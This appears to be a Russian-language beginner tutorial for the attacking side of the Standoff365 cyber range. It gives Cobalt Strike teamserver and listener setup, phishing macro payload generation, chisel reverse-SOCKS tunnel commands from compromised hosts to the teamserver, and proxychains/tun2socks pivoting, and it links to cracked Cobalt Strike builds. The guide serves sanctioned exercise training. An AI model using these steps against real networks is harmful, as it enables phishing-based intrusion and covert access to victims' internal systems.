

В общем-то, чтобы начать нагибать надо сперва скачать игру в google play/app store и много тренироваться.
Ладно, вы, вероятно, здесь не за этим. 

# Зачем вообще нужон этот ваш стендофф? 
`Standoff — открытые киберучения для специалистов по информационной безопасности.` Представляется как сопротивление между red и blue командами, далее разговор пойдет с перспективы наступательной стороны. Для красных команд это очень полезные учения, чтобы отточить свои навыки в проломе инфраструктур компаний и организаций абсолюнто разных направленностей: от IT интегратора до нефтегазового производителя. Если углубиться в более технические моменты - мало где можно найти настолько крупные инфраструктуры active directory (с недавнего времени и FreeIpa) в рамках лаб/ctf и продуманных векторов, которые через цепочку эксплуатации различных уязвимостей и техник ведет вас к реализации бизнес рисков.

Далее освечу пару важных штук, без чего играть в редтимера будет сложно.

# C2
C2 (Command&Control) - это сервер, через который операторы могут управлять разными устройствами. Позволяет вам и вашим тиммейтам удобно управлять захваченными хостами.

Самым удобным является Cobalt Strike. Правда есть одна проблема - стоит он много деняк (можно самостоятельно сделать ~~кряк~~), но одни добрые [ребята](https://t.me/Pwn3rzs) отдают кобальт буквально даром, однако призываю не использовать подобные релизы на реальных проектах, иначе вылезшие маленькие ножки из вашего тимсервера могут сотворить много бед, используя полученные вами доступы.

Приступим к деплою, показывать буду на версии 4.7.
Первым делом харденим тимсервер, а именно порт для коннекта к c2 (у кобальта по дефолту это 50050) должен быть доступен только операторам, для этого можно поднять дополнительно vpn сервер и разрешить трафик к порту 50050 только с интерфейса VPN, то же можно отнести к ssh и другим сервисам. В идеале наружу должен торчать порт листенера и chisel сервера(о нем позже). Пример иптейблов
```bash
sudo iptables -A INPUT -i tun0 -p tcp --dport 50050 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 50050 -j DROP
```

Теперь необходимо поднять сервер cobalt strike. 
```bash
sudo apt install openjdk-11-jdk
sudo ./teamserver  <teamserver-ip> <password> <profile file>
```
Айпи важно указывать тот, на котором будем ловить коннекты. Для начала можно и без профиля, позже вернемся к нему.

Теперь подключаемся 
Далее создадим листенер, для этого переходим в верхней панели `Cobalt Strike -> Listeners -> Add` и здесь на первых порах можно остановиться на http типе полезной нагрузки, а еще в http hosts добавляем ip сервера и сохраняем.

Ура, теперь ваша кобла готова к принятию жертв.

Теперь о профилях, если в кратце, то вы можете описать как будет общаться агент (он же бикон/имплант) с тимсервером, а именно, если связь по http, то подставляемый юзерагент, на какие ручки будут выполняться запросы и тд, все это частично для того, чтобы минимизировать шанс привлечь внимание сотрудника SOC. Также можно сразу задать параметры sleep - отрезок времени, раз в который будет осуществляться обмен связью между биконом и сервером, а также jitter - отвечает за долю рандома, чтобы запросы общения не были одинаковыми. Пара полезных ресурсов откуда можно подсосать профиль/вдохновиться для написания своего - [разработка](https://github.com/threatexpress/malleable-c2), [примеры](https://github.com/xx0hcd/Malleable-C2-Profiles).

А еще кобальт славится возможностью написать скрипты для автоматизации многих процессов при пентесте, например по кнопке собрать bloodhound, запустить winpeas, создать локального админа и вообще все, что может взбрести в голову. [Как писать 1](https://habr.com/ru/articles/815927/), [как писать 2](https://blog.injectexp.dev/2024/05/25/cobalt-strike-write-own-aggressor-script/), [подборка скриптов](https://github.com/Peco602/cobaltstrike-aggressor-scripts)
# Фишинговый макрос
C2 подготовили, а как сюда завести хосты??
В рамках standoff используется упрощенный сценарий, который весьма реален и повседневно используется вполне успешно пентестерами. Заготавливаем документ microsoft office со зловредным макросом, отправляем сотруднику целевой компании и вынуждаем открыть документ - профит.

Собственно начнем с генерации нагрузки, она же макрос. В верхней панели кобальта выбираем `Payloads -> MS Office Macro -> Выбираем листенер -> Generate`, копируем (переходим на винду, и тут надо выключить антивирус, а то он все испортит, либо накинуть исключений). Создаем документ типа `.doc` или `.docm`, открываем в поиске раздел с макросами, обратите внимание на пункт `Макросы из` он должен указывать на целевой документ.

Вставляем ранее сгенерированный скрипт в открывшееся окно и сохраняем документ.

Усе, теперь осталось отправить документ во вложении на почте, но оставлю этот процесс на самостоятельное изучение.

# Pivoting 

После получения initial access, а именно первой сессии в c2 перед нами встает вопрос, а как же двигаться дальше? Скорее всего вам захочется использоваь сетевую видимость захваченного хоста, но тащить на него многие тулзы не всегда представляется удобным. В этом вопросе  нас выручает техника пивотинга. Суть в том, чтобы проксироваться через захваченную тачку, для этого существуют тулзы - [chisel](https://github.com/jpillora/chisel), [gost](https://github.com/ginuerzh/gost). Покажу пару техник с чизлом.

Имеем ситуацию: 1 захваченная винда, нужно двигаться по инфре внутри. Для этого закидываем на винду скомпиленный чизел, на тимсервере поднимаем чизел сервер (!Важно, чтобы версия клиента и сервера совпадала) в режиме реверс.
```bash
chisel server --reverse -p 80
```

С винды подключаемся, `ip-open` это айпи тимсервера, с которого будет доступен порт для тоннеля через захваченный хост, например, открыв на 0.0.0.0 мы сделаем проксю доступной для всех интерфейсов тимсервера. `port` - соответственно порт, который откроется на тимсервере и будет тоннелем до виндовой тачки. `R` - reverse мод, так как снаружи мы не можем видеть целевой хост, а он нас во внешней сети видит. `socks` - метод тоннелирования протокол socks5 (не пропускает icmp, и в большинстве случаев udp).
```powershell
chisel.exe client <teamserver-ip:80> R:<ip-open>:<port>:socks
```

У нас есть тоннель, позволяющий проксироваться через захваченную тачку в целевую сеть, но надо как-то заворачивать траффик в этот тоннель. Для этих дел есть старый-добрый proxychains. Он предустановлен в kali, но спокойно ставится через любой пакетный менеджер. Редактируете последнюю строчку в файле `/etc/proxychains4.conf` на `socks5 ip port` и просто добавляете `proxychains ...`перед любой командой командой, которую хотите запустить через проксю.

У данной тулзы есть минусы, например, невозможность запускать через тоннель асинхронные тулзы. На помощь приходит новомодный [tun2socks](https://github.com/xjasonlyu/tun2socks).
Чтобы пользоваться, поднимаем tuntap интерфейс, и добавляем выдаваемую этим интерфейсом подсеть ту, в которую ведет тоннель. Например, захваченный хост находится в подсети 10.154.0.0/23, значит эту подсеть и прокинем себе через создаваемый интерфейс.
```bash
sudo ip tuntap add mode tun dev t2s
sudo ip addr add 10.154.0.0/24 dev t2s
sudo ip link set up dev t2s
```

И теперь запускаем tun2socks, чтобы он заворачивал трафик в socks тоннель.
```bash
tun2socks -device tun://t2s -proxy socks5://localhost:3001
```

После этого у вас появился интерфейс `t2s`, ведущий в целевую сеть.


Еще одна техника, когда хост, через который нужно проксироваться не имеет видимости до тимсервера (например, без выхода в интернет).
Chisel умеет в режим проброса, и здесь важно уловить почему какой ip использовать. Chisel server остается без изменений.
```bash
chisel server --reverse -p 80
```
На промежуточном хосте мы указываем в аргументы клиента ip и port тимсервера, и дополнительно прописываем по такой логике <айпи который видит захваченный хост-2>:порт:айпи-тимсервера:порт-тимсервера. Получается что хост будет принимать все обращения на `<inter-ip>:<inter-port>` и редиректить на `<ts-ip>:<ts-port>`.
```bash
chisel client <ts-ip>:<ts-port> <inter-ip>:<inter-port>:<ts-ip>:<ts-port>
```

Ну и второй захваченный хост подключаем указывая айпи и порт первого захваченного хоста(промежуточного).
```bash
chisel client <inter-ip>:<inter-port> R:<ip-open>:<port>:socks
```
 


# END
На этом хотелось бы закончить. Надеюсь статья вышла полезной для тех, кто хочет, но не знает как начать играть на киберполигоне standoff365.
Советую стартовать с [сегмента для новичков](https://range.standoff365.com/battle/7/?section=report&tab=risksReports), ведь там почти на каждый риск есть хинты, что позволит более гладко войти в среду. 
